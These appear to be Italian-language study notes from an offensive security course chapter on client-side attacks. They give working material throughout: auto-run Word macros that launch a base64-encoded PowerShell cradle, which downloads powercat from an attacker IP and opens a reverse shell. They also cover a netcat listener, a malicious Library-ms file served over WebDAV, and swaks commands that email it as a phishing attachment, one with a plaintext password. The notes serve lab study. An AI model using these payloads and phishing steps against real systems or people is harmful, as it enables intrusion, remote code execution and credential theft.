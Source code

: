 ## 11.1.1. Information Gathering

```bash
exiftool -a -u brochure.pdf

gobuster dir -x .pdf -w /usr/share/wordlists/dirb/common.txt -u http://$IP/
```

## 11.1.2. Client Fingerprinting
- https://github.com/laramies/theHarvester
- https://canarytokens.com/
- https://canarytokens.com/generate

## 11.2.3. Leveraging Microsoft Word Macros

- Primo esempio di macro:

```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

- Secondo esempio di macro:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

```bash
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powergat.ps4');powergat -c 192.168.119.2 -p 4444 -e powersbel
```

-  Dopo aver convertito questo comando in base64, lo dividiamo in più chunks tramite questo script:

```bash
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Alla fine otteniamo questo:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

- Ci mettiamo in ascolto:

```bash
nc -nvlp 4444
```

## 11.3.1. Obtaining Code Execution via Windows Library Files

```bash
pip3 install wsgidav

mkdir /home/kali/webdav

/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

- Creare il file config.Library-ms su windows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.195</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- Poi viene creato uno shortcut contenente un payload per scaricare powercat e avviare una reverse shell (RIVEDERE LA SEZIONE 24 Assembling the Pieces oppure utilizzare questa guida https://github.com/rexpository/powercat-v2.0)
- Il nome dello shortcut dato è: automatic_configuration
- Caricato il file config.Library-ms tramite smb:

```bash
cd webdav

smbclient //$IP$/share -c 'put config.Library-ms'
```

## Capstone

```bash
gobuster dir -x .pdf -w /usr/share/wordlists/dirb/common.txt -u http://$IP/

exiftool -a -u info.pdf

sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach config.Library-ms --server 192.168.237.199 --body body.txt --header "Subject: Problems" --suppress-data --auth-user test@supermagicorg.com --auth-password test 

sudo swaks -t damian@relia.com -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.188.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap --auth-user maildmz@relia.com --auth-password DPuBT9tGCBrTbR
```